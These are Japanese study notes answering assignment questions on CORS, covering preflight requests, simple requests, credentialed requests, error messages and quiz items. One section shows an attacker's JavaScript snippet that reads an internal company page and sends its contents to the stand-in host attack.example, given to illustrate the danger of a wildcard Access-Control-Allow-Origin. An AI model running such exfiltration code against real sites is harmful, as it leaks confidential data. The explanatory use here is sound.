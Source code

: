 # 課題6

## 課題1

### 問題1

Wev APIを利用したアプリケーションではよく、フロントエンドとバックエンドが別々のオリジンで配信される。
しかし、画面生成元のオリジンとリクエスト先のオリジンが異なる場合、同一オリジンポリシーによりレスポンスを処理することができない。
外部サイトからの不適切なAPIの利用を防ぐには都合がよいが、異なるオリジンにある正規サイトから利用する際には不都合が生じる。
そこで、正規のサイトのオリジンを許可することで制限を限定的に解除できる仕組みが「CORS（Cross-Origin Resource Sharing: オリジン間リソース共有）」と言う。  

異なるオリジンのAPIサーバーに対してリクエストを送信するとき、ブラウザはOriginリクエストヘッダーに現在のオリジンを付与する。
APIサーバーはOriginリクエストヘッダーを確認することで、どのオリジンからのリクエストか把握することができ、そのオリジンからのアクセスを許可する場合は、Access-Control-Allow-Originレスポンスヘッダーに許可するOriginを付与して返す。
レスポンスを受信したブラウザは、Access-Control-Allow-Originレスポンスヘッダーを確認し、アクセスが許可されているオリジンであれば、レスポンスを処理する。  

さきほど、APIサーバーはOriginリクエストヘッダーを確認すると述べたが、サーバー側は確認するために異なるオリジンであれ、リクエストを受け取っている。
つまり、サーバー側でリクエストに対する処理が行われることを意味する。
例えば、APIサーバーにDELETEリクエストを送信したとする。
もし、APIサーバーがCORSに対応しておらず、Originリクエストヘッダーを制限する実装になっていなかったら、このDELETEリクエストを受け入れ削除を実行してしまう。
ただし、CORSに対応していないためレスポンスにAccess-Control-Allow-Originレスポンスヘッダーは無い。
すると、ブラウザはレスポンスを確認してCORS違反と判断しエラーにするが、サーバー側での削除処理は実行されてしまう。
そのため、サービスに重大な影響を及ぼす恐れのある操作は、Access-Control-Allow-Originレスポンスヘッダーを確認したブラウザが処理を実行する前に、リクエストそのものを止めなければならない。
これを解決するために、今から送ろうとしているCORSリクエストをAPIサーバーが許可しているのか確認するために、Preflight Requestが考案された。  

Preflight Requestはサーバーに事前確認を行うために、ブラウザによって自動で送信される。
例えば、DELETEのリクエストを送信しようとすると、ブラウザは次のようなPreflight Requestのリクエストを送信する。

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)  

ブラウザは、OPTIONSメソッドでAccess-Control-Request-Methodリクエストヘッダーにこれから送信するメソッドを付与し、リクエストを送信する。
サーバーが許可している場合は、次のようなPreflight Requestへのレスポンスを返す。

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

[参考](https://developer.mozilla.org/ja/docs/Glossary/Preflight_request)

そして、サーバーはAccess-Control-Allow-Methodsレスポンスヘッダーに許可しているメソッドをブラウザに伝える。
受け取ったブラウザは、「このサーバーはCORSに対応しており、このOriginからのDELETEを許可している」と判断し、実際のリクエストを送信する。
これにより、CORSが許可されていない場合でも、実際のDELETEリクエストを送らず、サービスに意図しない影響が発生するのを防ぐことができる。

一方で、Preflight Requestが不要なリクエストをSimple Requestと呼ぶ。
Simple Requestについては後述する。

### 問題2

Access-Control-Allow-Origin: * は、すべてのオリジンからのリクエストを許可する。
これは、攻撃者に重要な情報が盗まれる可能性がある。  
例えば、 https://company.example は、外部に漏れてはいけない社外秘の情報があり、社内ネットワークに接続した社員のみアクセスできるとする。
また、社員は社内ネットワークだけはなく、社外ネットワーク（インターネット）にもアクセスすることができる。  
攻撃者は、その社外秘の情報を盗むために、Webサイト https://attack.example を用意し、社員がアクセスするように何らかの方法で誘導する。
社員がこの悪意あるサイトにアクセスすると、攻撃者に仕込まれていた次のようなJavaScriptにより、社外秘の情報が盗まれてしまう。

``` JavaScript
// Attackから社外秘の情報を取得する
const res  = await fetch("https://company.example")
const text = await res.text()

// その情報をAttackに転送する
await fetch("https://attack.example", {
  method: "post",
  body:   text
})
```

このような攻撃が成立しないようにするために、Access-Control-Allow-Originには、信頼できるオリジンを設定した方が良い。

### 問題3

- 仕様で定義された[CORS-Safelisted Method](https://fetch.spec.whatwg.org/#cors-safelisted-method)および[CORS-Safelisted Request Header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)を満たしていること。

- Content-Typeヘッダーでは以下の値のみが使用されていること。
  - application/x-www-form-urlencoded
  - multipart/form-data
  - text/plain
- リクエストに使用されるどのXMLHttpRequestUploadにもイベントリスナーが登録されていないこと。
- リクエストに ReadableStream オブジェクトが使用されていないこと。  
[参考](https://developer.mozilla.org/ja/docs/Web/HTTP/CORS#simple_requests)

### 問題4

CORS エラーが発生し、ブラウザによりレスポンスがブロックされる。

```
Access to fetch at 'http://localhost:8080/' from origin 'https://a3a6a06d6fa0.ngrok.io' has been blocked by CORS policy: The 'Access-Control-Allow-Origin' header has a value 'http://localhost:3000' that is not equal to the supplied origin. Have the server send the header with a valid value, or, if an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

### 問題5

フロントエンド

- XMLHttpRequest.withCredentialsをtrueに設定する

バックエンド

- access-control-allow-credentialsにtrueを設定する
- Cookieを設定する際にSameSite属性をNoneにする

[参考](https://qiita.com/y_tochukaso/items/78972e0e2917bb11fa10)

## 課題2

### クイズ1

xxxxxx-xxxxxxx-xxx-xxx レスポンスヘッダーを指定することができる。このレスポンスヘッダーに秒数を指定すると、その期間内は同じレスポンスに含まれる Access-Control-Allow-Methods と Access-Control-Allow-Headers の情報をキャッシュ可能にし、 Preflight Request の省略を許可できる。

xxxxxx-xxxxxxx-xxx-xxx レスポンスヘッダーはなんでしょう？

### クイズ2

xxxxxx-xxxxxxx-xxx-xxx（クイズ1の答え） レスポンスヘッダーのデフォルト値は何秒？

[参考](https://fetch.spec.whatwg.org/#http-access-control-max-age)

### クイズ3

HTTP ヘッダは様々な中継サーバによって追加されることがあり、重要な情報を含みます。その中には、JavaScriptから取得されることを想定していないものも多く、それが脆弱性の原因になる可能性があります。そこでJavaScriptからアクセス可能なヘッダが限定されています。明示的な許可がなくアクセス可能なヘッダは次のうちどれでしょう？

- Connection
- Content-Type
- Authorization

[CORS-Safelisted Response Header](https://fetch.spec.whatwg.org/#cors-safelisted-response-header-name)
[Access-Control-Expose-Headers](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Access-Control-Expose-Headers)

## 課題4

適用されない。  
CORSはブラウザの仕組みであり、CORSの制約はcURLには適用されない。

> ブラウザーがオリジンをまたいだリクエストのレスポンスに、フロントエンドの JavaScript コードがアクセスすることをブロックするかどうかを決めるものです。

[CORS](https://developer.mozilla.org/ja/docs/Glossary/CORS)
[参考](https://rso.hateblo.jp/entry/2019/02/13/225329)
